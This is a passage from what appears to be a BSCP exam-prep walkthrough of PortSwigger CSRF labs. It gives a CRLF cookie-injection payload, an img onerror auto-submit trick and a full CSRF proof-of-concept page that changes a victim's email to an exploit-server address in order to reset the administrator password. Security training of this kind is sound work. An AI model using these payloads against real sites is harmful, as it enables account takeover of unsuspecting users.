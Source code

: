 ```html
</html>
```

> This is interactive exploit and in BSCP exam if the stage 1 exploit was non interactive then this can be used to obtain administrator interaction by her clicking on the link to change their password. Note to check the `source code` of the change email page for any additional form id values.

[PortSwigger Lab: CSRF where Referer validation depends on header being present](https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses/lab-referer-validation-depends-on-header-being-present)

#### LastSearchTerm

> _**Identify**_ the CSRF vulnerability where token not tied to non-session cookie, by changing the **csrfkey** cookie and seeing the result that the request is rejected. Observe the **LastSearchTerm** cookie value containing the user supplied input from the search parameter.

> Search function has no CSRF protection, create below payload that injects new line characters `%0d%0a` to set new cookie value in response, and use this to inject cookies into the victim user's browser.

```
/?search=test%0d%0aSet-Cookie:%20csrfKey=CurrentUserCSRFKEY%3b%20SameSite=None
```

> Generate CSRF POC, Enable the option to include an **auto-submit** script and click **Regenerate**. Remove the **auto-submit** script code block and add following instead, and place `history.pushState` script code below body header. The **onerror** of the IMG SRC tag will instead submit the CSRF POC.

```
<img src="https://TARGET.net/?search=test%0d%0aSet-Cookie:%20csrfKey=CurrentUserCSRFKEY%3b%20SameSite=None" onerror="document.forms[0].submit()">
```

> During BSCP **Exam** set the email change value to that of the exploit server _**hacker@exploit-server.net**_ email address. Then you can change the administrator password with the reset function.

> In the below CSRF PoC code, the hidden csrf value is the one generated by the **change email** function and the csrfkey value in the `img src` is the value of the victim, obtained by logging on as victim provided credentials. not sure in exam but real world this is test to be performed.

```html
<html>
  <body>
    <script>history.pushState('', '', '/')</script>
    <form action="https://TARGET.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacker&#64;exploit&#45;0a18002e03379f0ccf16180f01180022&#46;exploit&#45;server&#46;net" />
      <input type="hidden" name="csrf" value="48hizVRa9oJ1slhOIPljozUAjqDMdplb" />
      <input type="submit" value="Submit request" />
    </form>
	<img src="https://TARGET.net/?search=test%0d%0aSet-Cookie:%20csrfKey=NvKm20fiUCAySRSHHSgH7hwonb21oVUZ%3b%20SameSite=None" onerror="document.forms[0].submit()">    
  </body>
</html>
```
